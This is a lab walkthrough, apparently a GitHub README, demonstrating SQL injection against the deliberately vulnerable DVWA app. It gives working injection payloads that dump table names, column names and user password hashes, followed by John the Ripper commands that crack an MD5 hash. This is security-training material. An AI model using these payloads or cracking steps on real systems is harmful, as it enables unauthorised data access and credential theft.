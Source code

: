 
# SQL Injection Demo


## Source Code Location
```
docker exec -it dvwa bash 
# cd /var/www/html
# cd /var/www/html/vulnerabilities/sqli
```

## Vunerable SQL Code

* Source Files: /var/www/html/vulnerabilities/sqli/source/low.php
* Note: $id comes from User Input

```
SELECT first_name, last_name FROM users WHERE user_id = '$id';
```

## On Web Form, Try

* User ID = Re11k'
* Should Get Error:
```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''Re11k''' at line 1
```

Note: 
```
SELECT first_name, last_name FROM users WHERE user_id = ''Re11k''
```

## Now Try

* User ID = Re11k' or 'a' = 'a
* Should See Data Exposed

Note:
```
SELECT first_name, last_name FROM users WHERE user_id = 'Re11k' or 'a' = 'a'
```


## Get Database Name

* User ID = Re11k' and 1=1 union select null, database() #

Note:
```
SELECT first_name, last_name FROM users WHERE user_id = 'RRe11k' and 1=1 union select null, database() #'
```


## Get Table Names

* User ID = Re11k' and 1=1 union select null, table_name from information_schema.tables #


## Get Columns from Users Table

* User ID = Re11k' and 1=1 union select null, concat(table_name,0x0a,column_name) from information_schema.columns where table_name = 'users' #


## Get Passwords

* User ID = Re11k' and 1=1 union select null, concat(user,0x0a,password) from users #


## Hack Passwords with John the Ripper

```
docker run --name kali --network attack --tty --interactive kalilinux/kali-rolling /bin/bash

> apt update && apt -y install john
> echo "admin:5f4dcc3b5aa765d61d8327deb882cf99" > password.txt
> john --format=raw-MD5 password.txt --show
> echo -n "password" | md5sum
>
> john --wordlist=/usr/share/john/password.lst --rules password.txt
> john --wordlist=/usr/share/john/password.lst --format=raw-MD5 --rules password.txt --show
> john --show password.txt

Check on a Mac:
mac$ md5 -s password
MD5 ("password") = 5f4dcc3b5aa765d61d8327deb882cf99
```








